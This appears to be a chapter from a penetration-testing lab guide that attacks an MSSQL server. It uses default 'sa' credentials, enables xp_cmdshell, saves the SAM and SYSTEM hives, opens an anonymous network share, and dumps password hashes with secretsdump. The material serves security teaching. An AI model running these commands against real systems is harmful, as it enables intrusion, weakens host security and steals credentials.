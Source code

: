 # Chapter 6 Instructions

## Using Metasploit to Verify MSSQL Credentials

1. Launch Metasploit:

   ```bash
   msfconsole
   ```

2. Verify MSSQL credentials:

   ```metasploit
   use auxiliary/scanner/mssql/mssql_login
   set rhosts 10.0.10.201
   set username sa
   set password Password1
   run
   ```

   This step checks if the provided MSSQL credentials (`username: sa`, `password: Password1`) are valid for accessing the server at `10.0.10.201`. You should see a message indicating that the auxiliary module execution completed successfully.

## Checking xp_cmdshell Availability

1. Check if `xp_cmdshell` is enabled:

   ```metasploit
   use auxiliary/admin/mssql/mssql_enum
   set rhosts 10.0.10.201
   set username sa
   set password Password1
   run
   ```

   This command checks whether `xp_cmdshell` is enabled on the MSSQL server. The expected output indicates that `xp_cmdshell` is not enabled.

## Enabling xp_cmdshell

After installing `mssql-cli` (see `mssqli.md` for installation instructions), and ensuring it's connected:

1. Enable advanced options:

   ```sql
   sp_configure 'show advanced options', '1';
   RECONFIGURE;
   ```

2. Enable `xp_cmdshell`:

   ```sql
   sp_configure 'xp_cmdshell', '1';
   RECONFIGURE;
   ```

3. Test `xp_cmdshell`:

   - Check the current user:

     ```sql
     exec master..xp_cmdshell 'whoami';
     ```

   - List members of the administrators group:

     ```sql
     exec master..xp_cmdshell 'net localgroup administrators';
     ```

## Saving Registry Hives

1. Use `reg.exe` to save registry hive copies:

   ```sql
   exec master..xp_cmdshell 'reg.exe save HKLM\SAM c:\windows\temp\sam';
   exec master..xp_cmdshell 'reg.exe save HKLM\SYSTEM c:\windows\temp\system';
   ```

## Listing Directory Contents

1. List the contents of the `c:\windows\temp` directory:

   ```sql
   exec master..xp_cmdshell 'dir c:\windows\temp';
   ```

## Preparing the Network Share

1. Adjust permissions and create a network share using `mssql-cli`:

   ```sql
   exec master..xp_cmdshell 'cacls c:\windows\temp\sam /E /G "Everyone":F';
   exec master..xp_cmdshell 'net share pentest=c:\windows\temp /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"';
   ```

## Accessing the Network Share

1. Use `smbclient` to access the share:

   ```bash
   smbclient \\\\10.0.10.201\\pentest -U ""
   ```

   If the above doesn't work, try using the Administrator account:

   ```bash
   smbclient \\\\10.0.10.201\\pentest -U Administrator
   ```

## Dumping Hashes

1. Clone the Impacket repository and navigate to its directory:

   ```bash
   git clone https://github.com/SecureAuthCorp/impacket.git
   cd impacket
   ```

2. Copy the `sam` and `system` files from the `c:\windows\temp` directory into the `impacket/examples/` folder.

3. Dump the hashes:

   ```bash
   python3 secretsdump.py -sam sam -system sys LOCAL > output.txt
   ```

   This command extracts hashes from the `sam` and `system` files, saving the output to `output.txt`.
